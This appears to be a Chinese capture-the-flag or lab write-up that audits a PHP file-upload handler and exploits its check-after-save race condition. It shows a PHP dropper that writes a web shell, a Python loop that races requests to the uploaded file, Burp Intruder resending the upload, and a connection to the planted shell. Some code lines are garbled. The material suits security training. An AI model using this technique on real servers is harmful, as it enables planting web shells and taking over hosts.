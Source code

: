 
# 审计源码
```php
$is_upload = false;
$msg = null;

if(isset($_POST['submit'])){
    $ext_arr = array(jpg','png','gif);
    $file_name = $_FILES['upload_file']['name'];
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_ext = substr($file_name,strrpos($file_name,".")+1);
    $upload_file = UPLOAD_PATH . '/' . $file_name;

    if(move_uploaded_file($temp_file, $upload_file)){
        if(in_array($file_ext,$ext_arr)){
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
             rename($upload_file, $img_path);
             $is_upload = true;
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！";
            unlink($upload_file);
        }
    }else{
        $msg = '上传出错！';
    }
}
```

	首先使用使用array()函数创建一个包含`jpg,png,gif`的数组存到变量`$ext_arr`中，然后将文件的原名称和临时文件名分别存入变量`$file_name`和`$temp_file`中，紧接着使用`strrpos()`函数和函数`substr()`获取文件后缀存入变量`$file_ext`中，然后使用if语句和`move_uploaded_file()`函数将文件上传，若无法上传则返回`上传出错！`，然后用if语句和`in_array()`函数在数组![](https://g.yuque.com/gr/latex?ext_arr%E4%B8%AD%E6%9F%A5%E6%89%BE%E5%8F%98%E9%87%8F%60#card=math&code=ext_arr%E4%B8%AD%E6%9F%A5%E6%89%BE%E5%8F%98%E9%87%8F%60&id=D9J5q)file_ext`中的值，若不存在则返回`只允许上传.jpg|.png|.gif类型文件！`并用 unlink()函数删除文件，存在则使用`rename()`函数更改文件名成功上传。


## 函数说明
```
array() 函数用于创建数组。
在 PHP 中，有三种类型的数组：
数值数组 - 带有数字 ID 键的数组
关联数组 - 带有指定的键的数组，每个键关联一个值
多维数组 - 包含一个或多个数组的数组

语法
数值数组的语法：
array(value1,value2,value3,etc.);
关联数组的语法：
array(key=>value,key=>value,key=>value,etc.);
key	规定键名（数值或字符串）。
value	规定键值。
```

```
strrpos() 函数查找字符串在另一字符串中最后一次出现的位置（区分大小写）。

语法
strrpos(string,find,start)
string	必需。规定被搜索的字符串。
find	必需。规定要查找的字符。
start	可选。规定开始搜索的位置。
```

```
substr() 函数返回字符串的一部分。

语法
substr(string,start,length)
string	必需。规定要返回其中一部分的字符串。
start	必需。规定在字符串的何处开始。正数 - 在字符串的指定位置开始。负数 - 在从字符串结尾的指定位置开始。0 - 在字符串中的第一个字符处开始
length	可选。规定要返回的字符串长度。默认是直到字符串的结尾。正数 - 从 start 参数所在的位置返回。负数 - 从字符串末端返回
```

```
move_uploaded_file() 函数把上传的文件移动到新位置。如果成功该函数返回 TRUE，如果失败则返回 FALSE。

语法
move_uploaded_file(file,newloc)
file	必需。规定要移动的文件。
newloc	必需。规定文件的新位置。
```

```
in_array() 函数搜索数组中是否存在指定的值。

语法
bool in_array ( mixed $needle , array $haystack [, bool $strict = FALSE ] )
needle	必需。规定要在数组搜索的值。
haystack	必需。规定要搜索的数组。
strict	可选。如果该参数设置为 TRUE，则 in_array() 函数检查搜索的数据与数组的值的类型是否相同。
```

```
rename() 函数重命名文件或目录。如果成功，该函数返回 TRUE。如果失败，则返回 FALSE。

语法
rename(oldname,newname,context)
oldname	必需。规定要重命名的文件或目录。
newname	必需。规定文件或目录的新名称。
context	可选。规定文件句柄的环境。context 是一套可以修改流的行为的选项。
```

```
unlink() 函数删除文件。如果成功，该函数返回 TRUE。如果失败，则返回 FALSE。

语法
unlink(filename,context)
filename	必需。规定要删除的文件。
context	可选。规定文件句柄的环境。context 是一套可以修改流的行为的选项。
```


## 漏洞利用

## 思路
	通过代码我们可以直接想到上传图片马利用文件包含得到shell，这样当然可行。不过这不是这一关的考核点，在审计源码的过程中我们不难发现，代码流程是先将文件上传，然后再对其文件类型进行判断。那么我们就可以利用在对文件类型进行判断之前的这个间隙来实现目的，这就是条件竞争漏洞。

**何为条件竞争漏洞**<br />	条件竞争漏洞是一种服务器端的漏洞，是由于开发者设计应用程序并发处理时操作逻辑不合理而造成。当应用面临高并发的请求时未能同步好所有请求，导致请求与请求之间产生等待时出现逻辑缺陷。该漏洞一般出现在与数据库系统频繁交互的位置，例如金额同步、支付等较敏感操作处。另外条件竞争漏洞也会出现在其他位置，例如文件的操作处理等。

	假设攻击者上传了一个用来生成恶意shell的文件，在上传完成和安全检查完成并删除它的间隙，攻击者通过不断地发起访问请求的方法访问了该文件，该文件就会被执行，并且在服务器上生成一个恶意shell的文件。至此，该文件的任务就已全部完成，至于后面发现它是一个不安全的文件并把它删除的问题都已经不重要了，因为攻击者已经成功的在服务器中植入了一个shell文件，后续的一切就都不是问题了。


## 利用
编写一段能够生成木马文件的脚本，将其保存为`webshell.php`
```php
<?php    fputs(fopen('shell.php','w'),'此处写入木马代码');?>
```

利用python的requests模块构造条件竞争
```python
import requestswhile
True:
    html = requests.get("http://www.web.com/upload/upload/webshell.php")
    if html.status_code == 200: 
        print("Succsee")
    else:
        print("NO")
```

将webshell.php上传并使用burpsuite抓包，发送到intruder模块中，设置为循环发送（注意有效负载位置清除）<br />![image-20210604170711131.png](_img/assets/1656467100680-ab3ec9d9-0013-4b8d-8349-53ed015726fe.png)

![image-20210604164509771.png](_img/assets/1656467105539-585c5597-b978-4b18-8782-c079d5d4ca43.png)

先启动python脚本，然后在burpsuite中发送数据包<br />![image-20210604170812116.png](_img/assets/1656467109506-a5d3799a-d0eb-441d-829d-5cefc09e64b2.png)

![image-20210604170838535.png](_img/assets/1656467113700-888cef58-29f8-4b5c-9e14-6a923a34ce87.png)

为了保险起见当多次出现Success时停止<br />![image-20210604171319635.png](_img/assets/1656467118405-ce28f399-fbe5-4fba-86ec-e184bf9d858c.png)

不知道文件位置可以随意上传一张图片，上传成功后将图片文件复制到一个新的浏览器窗口，将图片名称改为shell.php即是木马文件的路径<br />![image-20210604171659058.png](_img/assets/1656467122836-d6b53c85-ea37-4a41-847c-662c8b7c0a06.png)

得到木马文件路径
```
http://www.web.com/upload/upload/shell.php
```

使用蚁剑连接shell.php<br />![image-20210604171813647.png](_img/assets/1656467129039-9481704a-9016-4150-9138-ee12c6a18dee.png)

成功得到shell<br />![image-20210604171843761.png](_img/assets/1656467133854-a5ab4827-8795-426f-b221-a73bfad364ae.png)

![image-20210604171908283.png](_img/assets/1656467136476-53a576c6-dcfc-4187-a1a0-5595fc283d23.png)

